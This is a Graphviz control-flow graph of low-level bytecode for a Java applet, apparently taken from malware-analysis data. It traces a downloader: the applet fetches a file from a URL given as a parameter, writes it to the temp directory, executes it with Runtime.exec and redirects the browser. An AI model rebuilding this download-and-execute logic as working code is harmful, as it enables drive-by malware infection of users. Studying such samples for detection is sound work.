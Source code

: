 digraph "" {
    "r0 := @this: Java"
    "load.r r0"
    "r0 := @this: Java"->"load.r r0";
    "push \"FileName\""
    "load.r r0"->"push \"FileName\"";
    "virtualinvoke <Java: java.lang.String getParameter(java.lang.String)>"
    "push \"FileName\""->"virtualinvoke <Java: java.lang.String getParameter(java.lang.String)>";
    "store.r r1"
    "virtualinvoke <Java: java.lang.String getParameter(java.lang.String)>"->"store.r r1";
    "push \"java.io.tmpdir\""
    "store.r r1"->"push \"java.io.tmpdir\"";
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"
    "push \"java.io.tmpdir\""->"staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>";
    "store.r r2"
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"->"store.r r2";
    "store.r r2"->"load.r r0";
    "push \"Redirect\""
    "load.r r0"->"push \"Redirect\"";
    "push \"Redirect\""->"virtualinvoke <Java: java.lang.String getParameter(java.lang.String)>";
    "store.r r25"
    "virtualinvoke <Java: java.lang.String getParameter(java.lang.String)>"->"store.r r25";
    "new java.io.FileOutputStream"
    "store.r r25"->"new java.io.FileOutputStream";
    "store.r $r8"
    "new java.io.FileOutputStream"->"store.r $r8";
    "load.r $r8"
    "store.r $r8"->"load.r $r8";
    "new java.lang.StringBuilder"
    "load.r $r8"->"new java.lang.StringBuilder";
    "dup1.r"
    "new java.lang.StringBuilder"->"dup1.r";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "load.r r2"
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r r2";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"
    "load.r r2"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "load.r r1"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "specialinvoke <java.io.FileOutputStream: void <init>(java.lang.String)>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"specialinvoke <java.io.FileOutputStream: void <init>(java.lang.String)>";
    "new java.net.URL"
    "specialinvoke <java.io.FileOutputStream: void <init>(java.lang.String)>"->"new java.net.URL";
    "new java.net.URL"->"dup1.r";
    "dup1.r"->"load.r r0";
    "push \"URL\""
    "load.r r0"->"push \"URL\"";
    "push \"URL\""->"virtualinvoke <Java: java.lang.String getParameter(java.lang.String)>";
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"
    "virtualinvoke <Java: java.lang.String getParameter(java.lang.String)>"->"specialinvoke <java.net.URL: void <init>(java.lang.String)>";
    "virtualinvoke <java.net.URL: java.net.URLConnection openConnection()>"
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"->"virtualinvoke <java.net.URL: java.net.URLConnection openConnection()>";
    "virtualinvoke <java.net.URLConnection: java.io.InputStream getInputStream()>"
    "virtualinvoke <java.net.URL: java.net.URLConnection openConnection()>"->"virtualinvoke <java.net.URLConnection: java.io.InputStream getInputStream()>";
    "store.r r5"
    "virtualinvoke <java.net.URLConnection: java.io.InputStream getInputStream()>"->"store.r r5";
    "push 1024"
    "store.r r5"->"push 1024";
    "newarray"
    "push 1024"->"newarray";
    "store.r r6"
    "newarray"->"store.r r6";
    "load.r r5"
    "store.r r6"->"load.r r5";
    "load.r r6"
    "load.r r5"->"load.r r6";
    "push 0"
    "load.r r6"->"push 0";
    "push 0"->"load.r r6";
    "arraylength"
    "load.r r6"->"arraylength";
    "virtualinvoke <java.io.InputStream: int read(byte[],int,int)>"
    "arraylength"->"virtualinvoke <java.io.InputStream: int read(byte[],int,int)>";
    "store.i $i2"
    "virtualinvoke <java.io.InputStream: int read(byte[],int,int)>"->"store.i $i2";
    "load.i $i2"
    "store.i $i2"->"load.i $i2";
    "push -1"
    "load.i $i2"->"push -1";
    "ifcmpeq.i load.r r5"
    "push -1"->"ifcmpeq.i load.r r5";
    "ifcmpeq.i load.r r5"->"load.r $r8";
    "load.r $r8"->"load.r r6";
    "load.r r6"->"push 0";
    "push 0"->"load.i $i2";
    "virtualinvoke <java.io.FileOutputStream: void write(byte[],int,int)>"
    "load.i $i2"->"virtualinvoke <java.io.FileOutputStream: void write(byte[],int,int)>";
    "goto load.r r5"
    "virtualinvoke <java.io.FileOutputStream: void write(byte[],int,int)>"->"goto load.r r5";
    "store.r r0"
    "virtualinvoke <java.io.FileOutputStream: void write(byte[],int,int)>"->"store.r r0";
    "return"
    "store.r r0"->"return";
    "ifcmpeq.i load.r r5"->"load.r r5";
    "virtualinvoke <java.io.InputStream: void close()>"
    "load.r r5"->"virtualinvoke <java.io.InputStream: void close()>";
    "virtualinvoke <java.io.InputStream: void close()>"->"load.r $r8";
    "virtualinvoke <java.io.FileOutputStream: void close()>"
    "load.r $r8"->"virtualinvoke <java.io.FileOutputStream: void close()>";
    "staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"
    "virtualinvoke <java.io.FileOutputStream: void close()>"->"staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>";
    "staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r r2";
    "load.r r2"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>";
    "pop"
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"->"pop";
    "pop"->"new java.net.URL";
    "new java.net.URL"->"dup1.r";
    "load.r r25"
    "dup1.r"->"load.r r25";
    "checkcast"
    "load.r r25"->"checkcast";
    "checkcast"->"specialinvoke <java.net.URL: void <init>(java.lang.String)>";
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"->"checkcast";
    "checkcast"->"store.r r1";
    "store.r r1"->"load.r r0";
    "virtualinvoke <Java: java.applet.AppletContext getAppletContext()>"
    "load.r r0"->"virtualinvoke <Java: java.applet.AppletContext getAppletContext()>";
    "virtualinvoke <Java: java.applet.AppletContext getAppletContext()>"->"load.r r1";
    "interfaceinvoke <java.applet.AppletContext: void showDocument(java.net.URL)> 1"
    "load.r r1"->"interfaceinvoke <java.applet.AppletContext: void showDocument(java.net.URL)> 1";
    "goto return"
    "interfaceinvoke <java.applet.AppletContext: void showDocument(java.net.URL)> 1"->"goto return";
    "goto return"->"return";
}
